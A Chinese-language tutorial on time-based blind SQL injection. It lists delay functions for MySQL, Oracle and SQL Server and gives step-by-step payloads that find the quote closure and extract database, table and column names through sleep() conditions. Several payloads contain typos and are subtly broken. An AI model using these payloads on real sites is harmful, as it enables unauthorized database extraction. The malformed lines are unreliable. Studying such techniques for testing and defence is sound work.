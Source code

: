 在页面上无论正确与否，都没有任何提示的情况下：
sql语句延迟多少秒，网站响应就延迟多少秒，证明存在sql注入。

mysql关键词
判断：if
延时：sleep(5) ，select SLEEP(5);
执行次数过多延迟：benchmark(1000000,md(5))
注意不能过多可能造成数据库拒接服务，宕机。

oracle时间盲注函数：DBMS_PIPE.RECEIVE_MESSAGE 。dbms_pipe.receive_message

sqlserver时间盲注函数：WAITFOR DELAY   。waitfor delay
```
sqlserver
?a=1 WAITFOR DELAY '0:0:3'
?a=1%20WAITFOR%20DELAY%20'0:0:3'
```

^
基于时间的盲注，常和布尔结合起来用
```
' and if(length(database())=8,sleep(3),null) --+ //正确的话就执行sleep
' and if(length(database())=8,1,sleep(3)) --+ //正确的话就不执行sleep
'or if(length(database())=8,sleep(3),null) or '1'='1
```

## 1、判断闭合方式

```
?id=1' sleep(5) --+

语句：
?id=1' and sleep(5)-- -  //正常休眠
?id=1" and sleep(5)-- -  //无休眠
?id=1') and sleep(5)-- - //无休眠
?id=1") and sleep(5)-- - //无休眠
总结：由此可以判断注入点为数值型注入点 包裹符号为'号
```

## []()2、判断数据库的长度

```
?id=1' if(length(database())>8,1,sleep(5)) --+
```

## []()3、判断数据库的第一个字符

```
?id=1' if(ascii(substr(database() ,1,1))>110,1,sleep(5)) --+
```

## []()4、判断表的数量

```
?id=1' if(select length(table_name) from information_schema.tables where table_schema=database())>4,1,sleep(5)) --+
```

## []()5、判断第一个表的名称

```
?id=1’ if((select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema=database() limit 0,1)>100,1,sleep(5)) --+
```

## []()6、获取字段的数量

```
?id=1' if((select length(column_name) from information_schema.columns where table_schema=databases() and table_name='表名' limit 0,1)>5,1,sleep(5)) --+
```

## []()7、获取第一个字段的名

```
?id=1' if((select ascii(substr(column_name,1,1)) from information_schema.columns where table_schma=database() and table_name='表名' limit 0,1)>100,1,sleep(5)) --+
```


